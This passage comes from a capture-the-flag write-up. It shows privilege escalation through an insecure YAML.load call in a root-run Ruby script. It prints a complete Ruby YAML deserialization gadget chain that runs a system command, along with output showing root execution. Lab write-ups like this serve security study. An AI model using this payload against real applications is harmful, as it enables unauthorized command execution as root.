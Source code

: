 ```bash
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

The analysis shows the use of `YAML.load` which, by searching on Google, turns out to be vulnerable to the `Deserialization Attack` (like `pickle` in python for example). So, googling, I found a [repo](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml) reporting a Ruby exploit that I used to create the `dependencies.yml` file. 

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```

By running the command `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can verify that it works.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
```